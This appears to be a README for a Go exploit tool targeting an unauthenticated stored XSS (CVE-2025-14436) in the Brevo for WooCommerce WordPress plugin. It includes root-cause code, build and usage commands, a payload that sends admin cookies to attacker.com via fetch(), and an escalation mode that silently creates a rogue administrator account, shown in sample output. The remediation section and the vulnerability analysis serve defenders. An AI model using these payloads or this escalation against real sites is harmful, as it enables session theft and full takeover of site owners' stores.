

# CVE-2025-14436

## Brevo for WooCommerce - Unauthenticated Stored Cross-Site Scripting

**Author:** MoritakaAz

---

## Vulnerability Information

| Field | Value |
|-------|-------|
| **CVE ID** | CVE-2025-14436 |
| **Plugin** | Brevo for WooCommerce |
| **Affected Versions** | ≤ 4.0.49 |
| **Vulnerability Type** | Unauthenticated Stored Cross-Site Scripting (XSS) |
| **Severity** | High |

## Description

The Brevo for WooCommerce plugin is vulnerable to Stored Cross-Site Scripting via the `user_connection_id` parameter in all versions up to, and including, 4.0.49 due to insufficient input sanitization and output escaping.

This makes it possible for **unauthenticated attackers** to inject arbitrary web scripts in pages that will execute whenever a user (typically an admin) accesses an injected page.

## Root Cause Analysis

The vulnerable code is located in `woocommerce-sendinblue.php`:

```php
// Line ~164-188 - Vulnerable callback handler
function sendinblue_woocommerce_callback() {
    $pageNameVar = get_query_var('pagename');
    if ($pageNameVar == 'sendinblue-callback') {
        // No authentication check!
        $user_connection_id = filter_input(INPUT_POST, 'user_connection_id');
        
        if(empty($user_connection_id)) {
            parse_str($query_string, $queries);
            $user_connection_id = $queries['user_connection_id'];
        }

        if(isset($user_connection_id) && !empty($user_connection_id)) {
            // ⚠️ VULNERABLE: No sanitization before storing!
            update_option(SENDINBLUE_WC_USER_CONNECTION_ID, $user_connection_id);
        }
    }
}
```

The value is then output in `src/views/admin_menus.php` (line ~728) without proper escaping when admin visits the plugin settings page.

## Exploitation Flow



## Prerequisites

- Target must have Brevo for WooCommerce plugin installed and activated (version ≤ 4.0.49)
- No authentication required for exploitation
- XSS triggers when any admin visits the plugin settings page

## Build

```bash
go build -o CVE-2025-14436.exe main.go
```

## Usage

### Inject Default XSS Alert
```bash
.\CVE-2025-14436.exe -u http://target.com
```

### Inject Custom Payload
```bash
.\CVE-2025-14436.exe -u http://target.com -p "<script>fetch('http://attacker.com/steal?c='+document.cookie)</script>"
```

### Check Plugin Only
```bash
.\CVE-2025-14436.exe -u http://target.com --check-only
```

## Options

| Argument | Description |
|----------|-------------|
| `-u` | Target WordPress URL (required) |
| `-p` | Custom XSS payload to inject |
| `--escalate` | Use admin user creation payload |
| `--admin-user` | Username for new admin (default: `pwned_admin`) |
| `--admin-pass` | Password for new admin (default: `Pwned123!@#`) |
| `--admin-email` | Email for new admin (default: `pwned@evil.com`) |
| `--check-only` | Only check if plugin is active, do not exploit |
| `--timeout` | Request timeout in seconds (default: 30) |

## Example Output (Escalation Mode)

```
.\CVE-2025-14436.exe -u http://target.com --escalate

>> [ ONLINE ]    
    ╔═══════════════════════════════════════════════════════════════════════════════════════╗
    ║   CVE-2025-14436 - Brevo for WooCommerce Stored XSS                                   ║
    ║   Affected: Brevo for WooCommerce <= 4.0.49                                           ║
    ║   Author: MoritakaAz                                                                  ║
    ╚═══════════════════════════════════════════════════════════════════════════════════════╝

[*] Checking if Brevo for WooCommerce plugin is active...
[+] Plugin detected!

[!] ESCALATION MODE: Admin user creation payload
[!] New admin credentials: pwned_admin / Pwned123!@#

============================================================
[*] EXPLOIT: Stored XSS Injection
============================================================

[+] XSS payload injected successfully!
[+] Payload will execute when admin visits:
    http://target.com/wp-admin/admin.php?page=sendinblue

[!] IMPORTANT: When any admin user accesses the Brevo plugin 
    settings page, a new admin user will be created silently.
```

## Verification

After successful injection:
1. Login as WordPress admin
2. Navigate to **WooCommerce → Brevo** in the admin menu
3. XSS payload will execute in the browser

For escalation mode (`--escalate`):
- A new admin user will be created silently
- Login with the credentials shown in output

## Files

| File | Description |
|------|-------------|
| `main.go` | Main exploit source code |
| `escalation_payload.js` | Standalone JS payload for reference |
| `README.md` | This documentation |

## Remediation

> ⚠️ **IMPORTANT**: Update Brevo for WooCommerce plugin to version 4.0.50 or later where the vulnerability has been patched with proper input sanitization using `sanitize_text_field()` and output escaping using `esc_attr()`.

## References

- [Changeset 3434903 (Fix)](https://plugins.trac.wordpress.org/changeset/3434903/woocommerce-sendinblue-newsletter-subscription)
- [admin_menus.php Source](https://plugins.trac.wordpress.org/browser/woocommerce-sendinblue-newsletter-subscription/trunk/src/views/admin_menus.php#L728)
- [admin-manager.php Source](https://plugins.trac.wordpress.org/browser/woocommerce-sendinblue-newsletter-subscription/trunk/src/managers/admin-manager.php#L59)
- [woocommerce-sendinblue.php Source](https://plugins.trac.wordpress.org/browser/woocommerce-sendinblue-newsletter-subscription/trunk/woocommerce-sendinblue.php#L164)

## Disclaimer

This tool is provided for educational and authorized security testing purposes only. Unauthorized access to computer systems is illegal. Use responsibly.

## Author

**MoritakaAz**
